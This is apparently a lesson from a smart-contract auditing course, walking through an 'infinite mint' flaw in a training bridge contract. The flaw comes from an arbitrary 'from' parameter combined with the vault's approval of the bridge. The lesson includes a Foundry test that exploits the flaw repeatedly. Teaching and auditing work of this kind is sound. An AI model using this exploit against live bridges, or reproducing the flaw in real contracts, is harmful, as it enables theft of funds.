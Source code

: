 ```yaml
---
title: Exploit - Infinite Mint
---
```


_Follow along with the video lesson:_

---

### Exploit - Infinite Mint

That high we found was really interesting. Let's take a moment to redress how it came about.

```js
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
    token.safeTransferFrom(from, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
    emit Deposit(from, l2Recipient, amount);
}
```

We saw that, because this function takes an `arbitrary from` address, it allows any user to transfer approved tokens from any other user.

Can you think of any other situations in which the Boss Bridge protocol is approving tokens?

```js
constructor(IERC20 _token) Ownable(msg.sender) {
    token = _token;
    vault = new L1Vault(token);
    // Allows the bridge to move tokens out of the vault to facilitate withdrawals
    vault.approveTo(address(this), type(uint256).max);
}
```

Oh my ... The L1Vault is approving the bridge! This may be another high!

If the vault is giving approvals to the bridge a user would theoretically be able to call `depositTokensToL2`, passing _the vault's_ address as the `from` parameter. This seems potentially very bad. Let's try writing a test for this.

Open up L1TokenBridge.sol and we can get started.

```js
function testCanTransferFromVaultToVault() {}
```

By calling `depositTokensToL2` _from_ the vault, we're essentially transferring the tokens _back_ to the vault, but we'll be emitting a `Deposit` event with the parameters:

- from = address(vault)
- l2Recipient = address(attacker)
- amount = token.balanceOf(address(vault))

An important thing to note is that because the tokens are never really leaving the vault (they're transferring from the vault to the vault), this means the attack could be made multiple times to repeatedly emit this event, effectively minting infinite tokens on the L2.

Let's show it in our test.

```js
function testCanTransferFromVaultToVault() public {
    address attacker = makeAddr("attacker");

    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Trigger the deposit event, self transfer tokens to the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);

    // Test being able to repeat the exploit
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
}
```

Our test shouldn't be too unfamiliar from most of the last one we wrote. We're declaring an attacker and using the [**Foundry Cheatcode `Deal`**](https://book.getfoundry.sh/cheatcodes/deal?highlight=deal#deal) to give `500 ether` worth of our `L1Token` to the `Vault`.

From here, we set our expectEmits to show that the deposit event emits the `vault` as a from address, with the `attacker` as the recipient on L2. Because no tokens are removed from the `vault`, we can even exploit this multiple times.

Let's run the test.

```bash
forge test --mt testCanTransferFromVaultToVault
```

![infinite-mint1](/security-section-7/22-infinite-mint/infinite-mint1.png)

Yikes.

We're going to skip doing the write up for this together, but if you're serious about putting these skills to work, I encourage you to write up the finding report for this `high severity` bug.

